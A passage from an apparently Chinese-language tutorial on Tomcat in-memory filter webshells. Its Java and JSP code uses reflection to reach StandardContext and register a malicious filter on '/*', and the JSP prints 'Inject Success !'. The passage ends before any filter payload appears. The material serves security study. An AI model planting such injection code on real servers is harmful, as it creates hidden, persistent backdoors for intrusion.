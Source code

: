 ```
        /**
         * 将filterconfig（即ApplicationFilterConfig对象）添加到filterconfigs中
         */
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        //动态注册完毕，现在存在了一个拦截/*的filter
        out.print("Inject Success !");
    }
%>
```

![image-20221110123959777](images/20.png)





```
package filter;

import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;

@WebServlet("/filter")
public class AddTomcatFilter extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        this.doPost(req, resp);
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {

        try {
            String name = "DawnT0wn";
            ServletContext servletContext = req.getSession().getServletContext();

            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
```